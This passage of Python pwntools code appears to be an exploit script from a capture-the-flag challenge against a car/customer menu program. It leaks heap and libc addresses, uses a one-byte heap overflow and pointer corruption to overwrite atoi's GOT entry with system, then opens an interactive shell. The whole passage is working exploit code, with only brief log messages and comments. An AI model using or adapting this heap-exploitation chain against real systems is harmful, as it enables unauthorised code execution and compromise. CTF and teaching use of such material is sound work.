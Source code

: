 ```python
    log.info("leaking heap base...")
    heap_base = leak_heap(16)
    log.success("heap_base: "+hex(heap_base))

    # overflow one byte of heap address
    log.info("overflowing heap address...")
    choice = [3, 1]
    data   = ["comment", "A"*33]
    sel_car_cust(16, zip(choice, data))   
    
    # add comment and overwrite customer pointer, change it to atoi@got.plt
    log.info("modifying car 15 struct (for leaking got)...")
    r.sendlineafter(">\n", "4") # add customer
    r.sendlineafter(">\n", "3") # add comment
    r.sendlineafter(": \n", p64(0x1111) + p64(elf.got['atoi']))
    r.sendlineafter(">\n", "4") # exit customer menu
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # leak atoi's got
    log.info("leaking atoi's got & libc base...")
    leak_got(15)
    system = libc.symbols['system']
    log.success("libc base: "+hex(libc.address))
    log.success("system: "+hex(system))

    # overwrite customer pointer to heap_base+0x10
    log.info("modifying car 15 struct (for corrupting car array)...")
    choice = [3]
    data   = [p64(0x1111) + p64(heap_base+0x10)]
    sel_car_cust(16, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu

    # free & reallocate heap_base+0x10 , now we can control the car array 
    # after we control the car array, overite car[14] and make it point to atoi's got
    log.info("modifying car array...")
    choice = [3]
    data   = ["A"*0x20+p64(elf.got['atoi'])]
    sel_car_cust(15, zip(choice, data))   
    r.sendlineafter(">\n", "5") # exit select car menu
    
    # overwrite atoi's got
    log.info("overwriting atoi's got...")
    r.sendlineafter(">\n", "4") # select car
    r.sendlineafter("index\n", "14") # input index
    r.sendlineafter(">\n", "2") # set model (atoi's got)
    r.sendlineafter("model\n", p64(system))
    r.sendline("sh\x00")

    log.success("get shell !")
    r.interactive()

```
  